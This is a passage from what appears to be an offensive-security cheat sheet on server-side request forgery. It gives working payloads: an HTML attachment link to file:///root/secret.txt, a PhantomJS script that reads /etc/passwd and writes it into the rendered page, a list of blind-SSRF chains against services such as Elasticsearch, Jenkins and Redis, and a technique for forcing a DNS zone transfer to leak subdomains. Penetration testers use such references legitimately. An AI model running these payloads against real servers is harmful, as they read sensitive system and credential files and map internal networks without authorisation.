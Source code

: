 ```powershell
<link rel=attachment href="file:///root/secret.txt">
```

Example with PhantomJS 

```js
<script>
    exfil = new XMLHttpRequest();
    exfil.open("GET","file:///etc/passwd");
    exfil.send();
    exfil.onload = function(){document.write(this.responseText);}
    exfil.onerror = function(){document.write('failed!')}
</script>
```

## Blind SSRF

> When exploiting server-side request forgery, we can often find ourselves in a position where the response cannot be read. 

Use an SSRF chain to gain an Out-of-Band output.

From https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/ / https://github.com/assetnote/blind-ssrf-chains

**Possible via HTTP(s)**
- [Elasticsearch](https://github.com/assetnote/blind-ssrf-chains#elasticsearch)
- [Weblogic](https://github.com/assetnote/blind-ssrf-chains#weblogic)
- [Hashicorp Consul](https://github.com/assetnote/blind-ssrf-chains#consul)
- [Shellshock](https://github.com/assetnote/blind-ssrf-chains#shellshock)
- [Apache Druid](https://github.com/assetnote/blind-ssrf-chains#druid)
- [Apache Solr](https://github.com/assetnote/blind-ssrf-chains#solr)
- [PeopleSoft](https://github.com/assetnote/blind-ssrf-chains#peoplesoft)
- [Apache Struts](https://github.com/assetnote/blind-ssrf-chains#struts)
- [JBoss](https://github.com/assetnote/blind-ssrf-chains#jboss)
- [Confluence](https://github.com/assetnote/blind-ssrf-chains#confluence)
- [Jira](https://github.com/assetnote/blind-ssrf-chains#jira)
- [Other Atlassian Products](https://github.com/assetnote/blind-ssrf-chains#atlassian-products)
- [OpenTSDB](https://github.com/assetnote/blind-ssrf-chains#opentsdb)
- [Jenkins](https://github.com/assetnote/blind-ssrf-chains#jenkins)
- [Hystrix Dashboard](https://github.com/assetnote/blind-ssrf-chains#hystrix)
- [W3 Total Cache](https://github.com/assetnote/blind-ssrf-chains#w3)
- [Docker](https://github.com/assetnote/blind-ssrf-chains#docker)
- [Gitlab Prometheus Redis Exporter](https://github.com/assetnote/blind-ssrf-chains#redisexporter)

**Possible via Gopher**
- [Redis](https://github.com/assetnote/blind-ssrf-chains#redis)
- [Memcache](https://github.com/assetnote/blind-ssrf-chains#memcache)
- [Apache Tomcat](https://github.com/assetnote/blind-ssrf-chains#tomcat)


## SSRF to AXFR DNS

Query an internal DNS resolver to trigger a full zone transfer (AXFR) and exfiltrate a list of subdomains.

